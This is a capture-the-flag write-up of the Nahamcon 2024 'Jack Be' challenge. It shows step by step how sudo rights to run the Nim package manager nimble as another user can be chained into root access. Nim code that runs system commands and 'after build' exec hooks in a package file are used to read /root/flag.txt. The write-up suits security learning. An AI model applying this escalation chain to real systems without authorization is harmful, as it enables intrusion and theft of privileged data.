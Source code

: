 # Nahamcon Challenge: Jack Be

This challenge from Nahamcon 2024 CTF is of topic category `misc` and focuses on privilege escalation within Linux (medium difficulty).
The challenge text was given as:
> Wow! Jack is trying to learn one of the hottest new programming languages!!
> And on top of that, he wants you to learn it too! He has given you access to his development box. So generous of him! He said, "just don't hack it, please."
> Escalate your privileges and retrieve the contents of the /root/flag.txt file. 

> `Password is "userpass"`
> `ssh -p 31468 user@challenge.nahamcon.com`

## Enumeration

After logging into the box, we are user `user`:

```console
$ whoami
user
```

Checking `sudo -l` shows that we can run a specific command as user `jack`:

```console
$ sudo -l
(jack) NOPASSWD: /usr/bin/nimble run
```

`nimble` is the default package manager for the programming language `nim` and allows to create, install, and run nim-based packages. Due to the challenge hints, it is quite likely, that this is our entry point to full privilege escalation.

## Exploitation

Since we can only run nimble packages as jack, our goal is to craft such a package whose code then allows us to execute further commands.

There are generally two easy ways to let nimble execute arbitrary commands:

1) Create a nim program that itself executes system commands. An example is provided below:

```nim
import osproc

var result = execProcess("whoami")
echo result
```

2) Another option is, to execute system commands provided in the nimble package configuration file. This can be done by forcing nimble to run commands `before build` or `after build` with `exec`. An example is illustrated below:

``` bash
# other settings and package info
# ...

# before package is built
before build:
  echo "before build"
  exec "whoami"

# after package is built
after build:
  echo "after build"
  exec "whoami"
```

As we have the choice, we choose option one and create a package. Therefore, first, `nimble` can be used to set up a valid empty package with `nimble init`. To avoid any write permission issues later, a new folder within `/tmp` was chosen. Typically, one has to set a name, some description, and a type.   
After the package is created, one sees a nimble configuration file `[project name].nimble` and a `src` folder with a hello world nim source.   
Next, the source code has to be changed to our system command in nim. To verify the procedure, we choose the example code above.
Then the package can be build. It is no problem, that we can only run `run` as this indirectly invokes any needed build processes.

```console
$ cd /tmp/[project folder]
$ sudo -u jack /usr/bin/nimble run
...
...
jack
```
As expected, the compiled program is run after compilation as user `jack`. From here, another enumeration phase has to be started as we do not know what rights jack has. In principle, we could spawn an explicit shell to do so but will keep it simple here. Just running `sudo -l` for jack shows:
```
(root) NOPASSWD: /usr/bin/nimble install *
```

Apparently, `jack` can let nimble install packages as root. Unfortunately, `install` does not run a package, but only creates the binary. Hence, we have to create a second package for jack and use option two to run system commands.   
Again, within `/tmp` we create a new folder, initialize a new package and edit the configuration file to:

``` bash
# other settings and package info
# ...

# after package is built
after build:
  exec "cat /root/flag.txt"
```

At this point, the source code of package 2 does not matter anymore. However, since we are still `user` and avoided unnecessary reverse or spawned shell environments, we have to run `jack`'s command through an adjusted version of package one. An example for the package source is given below:

```nim
import osproc

var result = execProcess("cd /tmp/[project two] && sudo /usr/bin/nimble install --silent --accept")
echo result
```

The command first sets the working directory as the package folder and then runs our nimble install as root. Note, that after compilation, the configuration file triggers the actual system command.

After everything is set up, we only have to run the following commands as `user`:

```console
$ cd /tmp/[project folder]
$ sudo -u jack /usr/bin/nimble run
...
... // package one is build and run as "jack"
... // when run, package one installs package two as "root"
... // after compilation, the system commands are run as "root"
flag{7e8aee...9776ada}
```

This chain of privileged executions of nimble led to arbitrary commands as root, without the need of spawned shells.